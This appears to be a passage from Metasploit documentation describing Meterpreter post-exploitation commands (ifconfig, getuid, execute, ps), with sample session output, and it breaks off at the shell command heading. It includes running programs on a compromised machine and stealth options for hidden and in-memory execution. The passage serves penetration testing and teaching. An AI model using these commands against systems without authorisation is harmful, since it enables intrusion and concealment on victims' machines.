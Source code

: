 **ifconfig command**

The `ifconfig` command displays the network interfaces on the remote
machine:

```
meterpreter > ifconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
...
```

The command `ipconfig` is an alias for `ifconfig`.

**getuid command**

The `getuid` command shows you the current user that the payload is
running as:

```
meterpreter > getuid
Server username: WIN-6NH0Q8CJQVM\user
```

**execute command**

The `execute` command allows you to execute a command or file on the
remote machine.

The following example will spawn a calculator:

```
meterpreter > execute -f calc.exe
Process 2076 created.
```

To pass an argument, use the `-a` flag:

```
meterpreter > execute -f iexplore.exe -a http://metasploit.com
Process 2016 created.
```

There are some options you can see to add more stealth. For example, you
can use the `-H` flag to create the process hidden from view. You can
also use the `-m` flag to execute from memory.

**ps command**

The `ps` command lists the running processes on the remote machine.

**shell command**
